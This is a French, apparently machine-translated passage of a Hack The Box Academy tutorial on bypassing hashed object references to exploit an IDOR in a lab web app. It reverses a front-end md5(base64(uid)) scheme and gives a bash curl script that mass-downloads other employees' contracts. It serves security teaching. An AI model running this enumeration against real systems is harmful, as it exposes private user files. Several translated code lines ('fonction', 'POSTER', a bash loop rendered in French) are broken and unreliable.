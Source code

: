 Contournement des références codées
============================

* * * * *

Dans la section précédente, nous avons vu un exemple d'IDOR qui utilise les uid des employés en texte clair, ce qui facilite l'énumération. Dans certains cas, les applications Web créent des hachages ou encodent leurs références d'objet, ce qui rend l'énumération plus difficile, mais cela reste possible.

Revenons à l'application Web `Employee Manager` pour tester la fonctionnalité `Contrats` :

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg)

Si nous cliquons sur le fichier `Employment_contract.pdf` , le téléchargement du fichier commence. La requête interceptée dans Burp ressemble à ceci :

![download_contract](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

Nous voyons qu'il envoie une requête `POST` à `download.php` avec les données suivantes :

Code : php

```
contrat=cdd96d3cc73d1dbdaffa03cc6cd7339b

```

L'utilisation d'un script `download.php` pour télécharger des fichiers est une pratique courante pour éviter de créer des liens directs vers des fichiers, car cela peut être exploitable par plusieurs attaques Web. Dans ce cas, l'application Web n'envoie pas la référence directe en texte clair, mais semble la hacher au format "md5". Les hachages sont des fonctions à sens unique, nous ne pouvons donc pas les décoder pour voir leurs valeurs d'origine.

Nous pouvons tenter de hacher différentes valeurs, telles que `uid`, `username`, `filename` et bien d'autres, et voir si l'un de leurs hachages `md5` correspond à la valeur ci-dessus. Si nous trouvons une correspondance, nous pouvons la répliquer pour d'autres utilisateurs et collecter leurs fichiers. Par exemple, essayons de comparer le hachage `md5` de notre `uid`, et voyons s'il correspond au hachage ci-dessus :

```
dsgsec@htb[/htb]$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -

```

Malheureusement, les hachages ne correspondent pas. Nous pouvons essayer cela avec divers autres champs, mais aucun d'entre eux ne correspond à notre hachage. Dans les cas avancés, nous pouvons également utiliser `Burp Comparer` et fuzzer différentes valeurs, puis comparer chacune à notre hachage pour voir si nous trouvons des correspondances. Dans ce cas, le hachage `md5` pourrait correspondre à une valeur unique ou à une combinaison de valeurs, ce qui serait très difficile à prévoir, faisant de cette référence directe une `référence d'objet directe sécurisée`. Cependant, il y a un défaut fatal dans cette application Web.

* * * * *

Divulgation des fonctions
-------------------

Comme la plupart des applications Web modernes sont développées à l'aide de frameworks JavaScript, tels que `Angular`, `React` ou `Vue.js`, de nombreux développeurs Web peuvent commettre l'erreur d'exécuter des fonctions sensibles sur le front-end, ce qui les exposerait à des attaquants. . Par exemple, si le hachage ci-dessus était calculé sur le front-end, nous pouvons étudier la fonction, puis reproduire ce qu'elle fait pour calculer le même hachage. Heureusement pour nous, c'est précisément le cas dans cette application Web.

Si nous examinons le lien dans le code source, nous voyons qu'il appelle une fonction JavaScript avec `javascript:downloadContract('1')`. En examinant la fonction `downloadContract()` dans le code source, nous voyons ce qui suit :

Code : javascript

```
fonction downloadContract(uid) {
     $.redirect("/download.php", {
         contrat : CryptoJS.MD5(btoa(uid)).toString(),
     }, "POSTER", "_self");
}

```

Cette fonction semble envoyer une requête `POST` avec le paramètre `contract` , ce que nous avons vu ci-dessus. La valeur qu'il envoie est un hachage `md5` utilisant la bibliothèque `CryptoJS` , qui correspond également à la requête que nous avons vue précédemment. Donc, la seule chose qui reste à voir est quelle valeur est hachée.

Dans ce cas, la valeur hachée est `btoa(uid)`, qui est la chaîne codée en `base64` de la variable `uid` , qui est un argument d'entrée pour la fonction. En revenant au lien précédent où la fonction a été appelée, nous la voyons appeler `downloadContract('1')`. Ainsi, la valeur finale utilisée dans la requête `POST` est la chaîne encodée `base64` de `1`, qui a ensuite été hachée `md5` .

Nous pouvons tester cela en `base64` encodant notre `uid=1`, puis en le hachant avec `md5`, comme suit :

```
dsgsec@htb[/htb]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -

```

Astuce : Nous utilisons l'indicateur `-n` avec `echo` et l'indicateur `-w 0` avec `base64`, pour éviter d'ajouter des retours à la ligne, afin de pouvoir calculer le hachage `md5` de la même valeur. , sans hacher les sauts de ligne, car cela modifierait le hachage `md5` final.

Comme nous pouvons le voir, ce hachage correspond au hachage de notre requête, ce qui signifie que nous avons réussi à inverser la technique de hachage utilisée sur les références d'objet, en les transformant en IDOR. Avec cela, nous pouvons commencer à énumérer les contrats des autres employés en utilisant la même méthode de hachage que nous avons utilisée ci-dessus. `Avant de continuer, essayez d'écrire un script similaire à celui que nous avons utilisé dans la section précédente pour énumérer tous les contrats`.

* * * * *

Dénombrement de masse
----------------

Encore une fois, écrivons un simple script bash pour récupérer tous les contrats des employés. Le plus souvent, il s'agit de la méthode la plus simple et la plus efficace pour énumérer les données et les fichiers via les vulnérabilités IDOR. Dans les cas plus avancés, nous pouvons utiliser des outils tels que `Burp Intrudeuh` ou `ZAP Fuzzer`, mais un simple script bash devrait être le meilleur moyen pour notre exercice.

Nous pouvons commencer par calculer le hachage pour chacun des dix premiers employés à l'aide de la même commande précédente tout en utilisant `tr -d` pour supprimer les `- `caractères de fin, comme suit :

```
dsgsec@htb[/htb]$ pour je dans {1..10} ; faire echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; fait

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd

```

Ensuite, nous pouvons faire une requête `POST` sur `download.php` avec chacun des hachages ci-dessus comme valeur `contract` , ce qui devrait nous donner notre script final :

Code : bash

```
#!/bin/bash

#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done

```

Avec cela, nous pouvons exécuter le script, et il devrait télécharger tous les contrats des employés 1 à 10 :

```
dsgsec@htb[/htb]$ bash ./exploit.sh
dsgsec@htb[/htb]$ ls -1

contrat_006d1236aee3f92b8322299796ba1989.pdf
contrat_0b24df25fe628797b3a50ae0724d2730.pdf
contrat_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contrat_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contrat_5d4aace023dc088767b4e08c79415dcd.pdf
contrat_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contrat_b523ff8d1ced96cef9c86492e790c2fb.pdf
contrat_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contrat_d477819d240e7d3dd9499ed8d23e7158.pdf
contrat_f7947d50da7a043693a592b4db43b0a1.pdf

```

Comme nous pouvons le voir, parce que nous avons pu inverser la technique de hachage utilisée sur les références d'objets, nous pouvons maintenant exploiter avec succès la vulnérabilité IDOR pour récupérer tous les contrats des autres utilisateurs.
